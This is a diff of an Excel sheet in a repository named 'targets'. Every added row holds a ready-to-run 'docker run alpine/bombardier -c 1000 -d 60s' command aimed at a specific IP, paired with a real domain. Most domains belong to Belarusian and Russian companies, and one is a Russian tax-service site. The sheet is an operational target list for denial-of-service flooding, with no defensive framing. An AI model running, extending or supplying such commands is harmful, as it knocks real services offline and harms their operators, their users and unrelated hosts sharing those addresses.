

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; addresses are those after the commit; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
-A23: …60s -l 195.50.4.200&& sleep 5;
+A23: …60s -l 80.87.203.101&& sleep 5;
-B23: 195.50.4.200
+B23: 80.87.203.101
+row 24: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 90.156.219.38&& sleep 5; | 90.156.219.38 | sckk.by
+row 26: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 142.250.27.26&& sleep 5; | 142.250.27.26 | bmik-aquapack.by
+row 27: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 64.233.184.26&& sleep 5; | 64.233.184.26 | bmik-aquapack.by
+row 28: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 209.85.202.27&& sleep 5; | 209.85.202.27 | bmik-aquapack.by
+row 29: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 142.250.153.26&& sleep 5; | 142.250.153.26 | bmik-aquapack.by
+row 30: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 64.233.184.27&& sleep 5; | 64.233.184.27 | bmik-aquapack.by
+row 31: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 142.251.111.26&& sleep 5; | 142.251.111.26 | bmik-aquapack.by
+row 32: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 86.57.246.186&& sleep 5; | 86.57.246.186 | bmik-aquapack.by
+row 33: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.159.250.29&& sleep 5; | 178.159.250.29 | bmik-aquapack.by
+row 34: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.159.252.109&& sleep 5; | 178.159.252.109 | bmik-aquapack.by
+row 35: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 188.17.150.118&& sleep 5; | 188.17.150.118 | pcbk.ru
+row 36: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 188.170.119.130&& sleep 5; | 188.170.119.130 | pcbk.ru
+row 37: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 188.170.119.134&& sleep 5; | 188.170.119.134 | pcbk.ru
+row 38: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 188.68.186.14&& sleep 5; | 188.68.186.14 | remos.ru
+row 39: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 198.185.159.144&& sleep 5; | 198.185.159.144 | remos.ru
+row 40: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 46.173.190.195&& sleep 5; | 46.173.190.195 | akarton.ru
+row 41: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 85.172.11.199&& sleep 5; | 85.172.11.199 | akarton.ru
+row 42: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 213.24.64.138 && sleep 5; | 213.24.64.138 | lkdr.nalog.gov.ru
```
Also changed, not shown: 109 added rows, 20 removed rows, 4 moved rows and 5 edited cells elsewhere in this sheet, formulas that keep their value.
